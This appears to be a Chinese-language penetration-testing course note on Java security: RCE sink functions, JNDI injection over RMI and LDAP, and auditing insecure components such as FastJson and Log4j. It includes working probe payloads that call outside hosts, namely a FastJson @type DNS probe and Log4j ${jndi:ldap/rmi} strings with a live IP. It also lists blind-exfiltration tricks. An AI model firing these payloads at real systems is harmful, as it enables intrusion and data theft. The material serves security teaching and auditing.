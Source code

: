 
---

➢ Java安全-RCE执行-5大类函数调用

➢ Java安全-JNDI注入-RMI&LDAP&高版本

➢ Java安全-不安全组件-JSON&XML&验证&日志

## Java安全-RCE执行

### 5大类函数调用

```
-Groovy

-RuntimeExec

-ProcessImpl

-ProcessBuilder

-ScriptEngineManager
```

### 检测：（大部分白盒）

黑盒看参数名和参数值

白盒看类函数名和可控变量

## Java安全-JNDI注入


![[13380879200774263.jpg]]
### 何为JNDI

JNDI全称为 Java Naming and Directory Interface（Java命名和目录接口），是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。

JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。

简单点说，JNDI就是一组API接口。每一个对象都有一组唯一的键值绑定，将名字和对象绑定，可以通过名字检索指定的对象，而该对象可能存储在RMI、LDAP、CORBA等等。

**RMI**：远程方法调用注册表

**LDAP**：轻量级目录访问协议

### 前提条件

要想成功利用JNDI注入漏洞，重要的前提就是当前Java环境的JDK版本，而JNDI注入中不同的攻击向量和利用方式所被限制的版本号都有点不一样。

#### 版本

![[13380879211681546.jpg]]

### 调用检索：

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。javax.naming.InitialContext.lookup()

在RMI服务中调用了InitialContext.lookup()的类有：

```
org.springframework.transaction.jta.JtaTransactionManager.readObject()

com.sun.rowset.JdbcRowSetImpl.execute()

javax.management.remote.rmi.RMIConnector.connect()

org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)
```

在LDAP服务中调用了InitialContext.lookup()的类有：

```
InitialDirContext.lookup()

Spring LdapTemplate.lookup()

LdapTemplate.lookupContext()
```

### 检测：

无黑盒思路

白盒看类函数名和可控变量

## Java安全-不安全组件-JSON&XML&验证&日志

### Log4j：

Apache的一个开源项目，是一个基于Java的日志记录框架。

历史漏洞：[https://avd.aliyun.com/search?q=Log4j]

### Shiro：

Java安全框架，能够用于身份验证、授权、加密和会话管理。

历史漏洞：[https://avd.aliyun.com/search?q=Shiro]


### Jackson：

当下流行的json解释器，主要负责处理Json的序列化和反序列化。

历史漏洞：[https://avd.aliyun.com/search?q=Jackson]

### XStream：

开源Java类库，能将对象序列化成XML或XML反序列化为对象

历史漏洞：[https://avd.aliyun.com/search?q=XStream]

### FastJson：

阿里巴巴公司开源的json解析器，它可以解析JSON格式的字符串，支持将JavaBean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。

历史漏洞：[https://avd.aliyun.com/search?q=fastjson]

### 黑盒测试不安全组件漏洞：

见后续章节漏洞复现利用课程

### 白盒审计不安全组件漏洞：

#### FastJson审计

1、看引用组件版本及实现

```
JSON.parse() 
JSON.parseObject()
```

2、找可控变量及访问实现

```
admin/product propertyJson
```

3、测试出网回显调用访问

```
{"@type":"java.net.Inet4Address","val":"atcuqbczqs.dnstunnel.run"}
```

#### Log4j审计

1、看引用组件版本及实现

```
logger.info 
logger.error
```

2、找可控变量及访问实现

```
admin/uploadAdminHeadImage originalFileName
```

3、测试出网回显调用访问

```
${jndi:ldap://jebqzwhwtn.dnstunnel.run}

${jndi:rmi://47.94.236.117:1099/l6v1wz}
```

#### 不回显常见判断通用方法：

1、直接将执行结果写入到静态资源文件里，如html、js等，然后访问。

2、通过dnslog进行数据外带，但如果无法执行dns请求就无法验证了。

3、接将命令执行结果回显到请求Poc的HTTP响应中。

不回显常见判断细节方法：

例：[https://mp.weixin.qq.com/s/qhLhgbNwocC07AN48eQ0sw]